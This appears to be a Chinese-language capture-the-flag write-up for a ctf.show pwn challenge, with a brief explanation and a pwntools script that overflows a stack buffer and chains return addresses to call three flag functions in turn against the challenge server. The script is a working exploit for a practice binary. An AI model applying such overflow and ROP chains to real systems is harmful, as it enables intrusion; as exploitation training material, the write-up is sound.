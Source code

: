 # 挑战简介
你是我的谁，我的我是你的谁

# 思路
这边强度就低得多了，三个flag函数，主flag需求flag1和flag2得返回结果为一，且传入一个参数，相当于一个函数套娃题

```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"

p = remote("pwn.challenge.ctf.show",28312)
elf = ELF('D:\edge 下载\pwn')

offset = 0x2C+ 0x4

p.recvuntil("Input your flag: ")

flag1 = 0x08048586

flag2 = 0x0804859D

flag = 0x08048606

pop_ebp_ret = 0x0804859b

p.sendline(b"a"*offset + p32(flag1) + p32(flag2) + p32(pop_ebp_ret) + p32(0xACACACAC) + p32(flag) + p32(pop_ebp_ret) + p32(0xBDBDBDBD))

p.interactive()

```
